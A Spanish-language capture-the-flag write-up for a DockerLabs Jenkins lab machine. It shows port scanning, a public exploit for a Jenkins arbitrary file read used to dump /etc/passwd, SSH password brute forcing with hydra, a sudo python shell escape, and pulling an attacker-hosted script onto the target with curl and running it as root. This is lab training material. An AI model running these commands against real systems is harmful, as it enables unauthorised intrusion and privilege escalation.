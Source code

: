 # [FirstHacking](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh secretjenkins.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

<br>
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **8080** y el **22**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/a1c0f66b-e114-4d9c-8b06-44d197ff9d93)

<br>
<br>

## Página Web (Puerto 8080)

Al ver que está abierto el puerto 8080 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:8080` ya que es el puerto 8080 el que aloja este servidor Web. Podemos ver un panel de login para Jenkins: 

<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedfd01c-7a4d-45a9-a0b0-dd8b66cf42ac)

<br>

Si probamos ha hacer un fuzzing web ya sea con gobuster o wfuzz. De la siguiente forma `gobuster dir -w /home/kali/WordLists/directory-medium -u http://172.17.0.2:8080/ -x txt,sql,py,js,php,html`, observamos que nos detecta muchos de subdirecctorios.  <br>
`-w` ⮞ ruta al diccionario para usar en el descubrimiento de subdirecctorios <br>
`u` ⮞ dirección donde se aloja el servidor web <br>
`x` ⮞ extensiones de archivos para descubrir en el fuzzins <br>
<br>

Si probamos con el primero de ellos `index` podemos ver que abajo a la derecha la versión del Jenkins usada: 
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/7f7eda42-68f8-44bf-ab5e-eb70c4115cb2)

<br>

## Jenkins 2.441
Ahora que conocemos la versión de Jenkins podemos buscar en Internet en búsquedad de exploits para esta versión en especifico de la siguiente forma: `jenkins 2.44.1 github exploit`. Y nos encontramos con el siguiente repositorio de 
[github](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability). En el encontramos un poco de información sobre la vulnerabilidad a explotar, la cual consiste en leer archivos 
del sistema (LFI)<br>

Nos descargamos el exploit en python con wget de la siguiente forma
`wget https://raw.githubusercontent.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability/main/CVE-2024-23897.py` <br>, le asignamos permisos de ejecución con `chmod +x CVE-2024-23897.py`. Su uso es muy sencillo solo hay que poner la url de la página web con Jenkins y el archivo que queremos leer por lo tanto sería tal que así `python3 CVE-2024-23897.py -u http://172.17.0.2:8080/ -f /etc/passwd`. Y observamos el arhcivo de `/etc/passwd` donde podemos leer algunos usuarios como `bobby y pinguinito`.
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/081ea4f9-5afc-45e5-9375-a911c288fb91)

<br>
<br>
## Hydra / Medusa
Una vez conocemos los posibles usuarios los metemos un archivo llamdo `users` aplicamos un ataque de fuerza fruta con hydra con el siguiente comando: `hydra -L users -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`. <br> 
`-h` ⮞ dirección IP de la máquina victima <br>
`-U` ⮞ el archivo con los posibles usuarios es decir (bobby,pinguinito) <br> 
`-P` ⮞ ruta del rockyou. Para descargar el diccionario [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) <br> 
<br>
<br>

Nos reporta lo siguente:  
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/13bb5fb7-d465-4fbe-8bde-1d49fe9f9bea)

<br>

## SSH (Puerto 22)
Una vez conocemos el usuario y su contraseña probramos a entrar a la máquina Vacaciones con `ssh bobby@172.17.0.2`, y a continuación nos pedirá la contraseña. *Si te aparece un error como este [aquí](https://desarrolloweb.com/faq/solucionar-remote-host-identification-has-changed-al-hacer-ssh) puedes encontrar la solución.* <br>![image](https://github.com/TerrorAterrador/WriteUps/assets/128630899/2128bd5f-33a2-4bb0-ac54-6555c7aa5817)


<br>

## Escala de Privilegios
Comprobamos que hemos podido ingresar a la Máquina Víctima como **bobby** <br>
Si ejecutamos `sudo -l` podemos ver que podemos ejecutar sin proporcionar contraseña con el usuario **pinguinito**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/784a5bb5-c6e0-4895-8a7e-abd7d12b0c20)

<br>
<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando `sudo python -c 'import os; os.system("/bin/sh")'`. Y lo ejecutaríamos de lwa siguiente forma `sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`. <br>
<br>

Y ya seríamos el usuario **pinguinito**, ejecutamos otras vez el `sudo -l` y nos encontramos con lo siguiente: <br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/cedce804-521c-4d03-b0e4-76d927b1c1fc)
<br>

Por lo que nos dirigimos a la ubicación del archivo e intentamos modificarlo para ejecutar una shell con python, nos damos cuenta que no contamos con ningún editor de texto, pero si tenemos curl por lo que desde nuestra máquina de atacante nos creamos un archivo llamado `script.py` que contendría lo siguiente: <br>
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/5b7b63aa-43b6-49b4-ac98-acbc1d40dc20)
<br>

No montamos un servidor HTTP en python en la ubicación de nuestro archivo `script.py` de la siguiente forma `python3 -m http.server 80` para poder compartir dicho archivo con la máquina de **SecretJenkins**. <br>

Ahora en la máquina **SecretJenkins** accedemos al archivo de la siguiente forma `curl http://172.17.0.1/script.py -O script.py`, antes deberíamos haber puesto permiso de escritura en el archivo `scirpt.py` con `chmod +w script.py`. Una vez tenemos dicho archivo hacemos `sudo -u root /usr/bin/python3 /opt/script.py` para ejecutar dicho archivo como root y listo ya somos root:  
<br>
![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/d9f1e7ce-a131-4683-9fdb-fe976dcad531)
<br>
